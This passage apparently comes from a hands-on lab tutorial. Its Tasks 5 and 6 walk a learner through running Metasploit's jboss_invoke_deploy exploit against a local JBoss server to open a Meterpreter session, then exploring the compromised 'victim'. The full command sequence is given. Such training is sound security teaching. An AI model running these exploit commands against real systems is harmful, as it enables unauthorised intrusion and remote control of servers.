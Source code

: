 ### Task 5

Run Meterpreter through the jboss_invoke_deploy exploit:

{% capture code %}
	use exploit/multi/http/jboss_invoke_deploy

	info

	set RHOST 127.0.0.1

	set RPORT 8080

	set LHOST 127.0.0.1

	set LPORT 5555

	exploit -t 1
{% endcapture %}
{% include copy-paste.html title="Similar procedure as the one you just learned, but in this case invoking Meterpreter." code=code %}

### Task 6

List the running processes on the victim.

-   Use `help`
-   What other commands look interesting? Try some of them out!
